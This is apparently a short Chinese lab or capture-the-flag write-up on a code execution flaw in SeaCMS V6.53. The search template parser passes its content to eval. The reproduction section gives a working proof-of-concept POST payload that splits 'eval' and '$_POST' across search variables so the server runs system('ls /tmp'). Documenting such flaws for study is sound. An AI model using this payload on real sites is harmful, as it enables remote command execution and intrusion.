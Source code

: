 # 海洋 cms V6.53版本代码执行 by [Frivolous-scholar](https://github.com/Frivolous-scholar) 

## 概述

echoSearchPage 函数中的 content 变量传给了 parself 函数，跟踪代码，找到 ./include/main.class.php，可以看到 parseIf 函数会将content内容 eval 执行，造成命令执行。

## 复现

1、首先打开靶场。

![1](./1.png)

2、进行搜索并抓包。

![2](./2.png)

3、利用 POC 来拿 Flag,POC 如下。

```
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=sy&9[]=stem("ls /tmp");
```

![3](./3.png)
